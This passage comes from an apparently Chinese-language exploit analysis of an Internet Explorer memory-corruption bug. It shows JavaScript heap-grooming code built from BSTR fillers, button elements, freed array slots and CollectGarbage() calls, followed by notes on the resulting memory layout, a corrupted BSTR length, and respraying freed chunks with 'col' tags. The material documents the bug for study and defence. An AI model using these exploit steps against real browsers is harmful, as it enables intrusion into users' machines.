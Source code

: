 <code class="python plain">padding.substring(</code><code class="python value">0</code><code class="python plain">, (</code><code class="python value">0x100</code><code class="python keyword">-</code><code class="python value">6</code><code class="python plain">)</code><code class="python keyword">/</code><code class="python value">2</code><code class="python plain">);</code>&nbsp;<code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python keyword">/</code><code class="python keyword">/</code> <code class="python plain">A, bstr </code><code class="python keyword">=</code> <code class="python plain">B</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">arr[i</code><code class="python keyword">+</code><code class="python value">1</code><code class="python plain">] </code><code class="python keyword">=</code> <code class="python plain">filler.substring(</code><code class="python value">0</code><code class="python plain">, (</code><code class="python value">0x100</code><code class="python keyword">-</code><code class="python value">6</code><code class="python plain">)</code><code class="python keyword">/</code><code class="python value">2</code><code class="python plain">);</code>&nbsp;<code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python keyword">/</code><code class="python keyword">/</code> <code class="python plain">B</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">var obj </code><code class="python keyword">=</code> <code class="python plain">document.createElement(</code><code class="python string">"button"</code><code class="python plain">);</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">div_container.appendChild(obj);</code>&nbsp;<code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">}</code>&nbsp;<code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python keyword">for</code> <code class="python plain">(var i</code><code class="python keyword">=</code><code class="python value">200</code><code class="python plain">; i&lt;</code><code class="python value">500</code><code class="python plain">; i</code><code class="python keyword">+</code><code class="python keyword">=</code><code class="python value">2</code> <code class="python plain">) {</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">rra[i] </code><code class="python keyword">=</code> <code class="python plain">null;</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">CollectGarbage();</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">}</code>&nbsp;<code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">&lt;</code><code class="python keyword">/</code><code class="python plain">script&gt;</code></td></tr></tbody></table>

其于内存中分布情况(`BSTR 'E'` & `BSTR 'A'` & `BSTR 'B'` & `CButtonLayout`)：

 

![](upload/attach/202102/817966_YZKTNGYPYVJPQCH.jpg)

 

调用`CollectGarbage()`回收完成后，其`Len`部分变为`0x0000ffff`：

 

![](upload/attach/202102/817966_SKJXEDEB664BJJY.jpg)

 

第二部分创建大量`col`标签，以占位之前释放堆块：
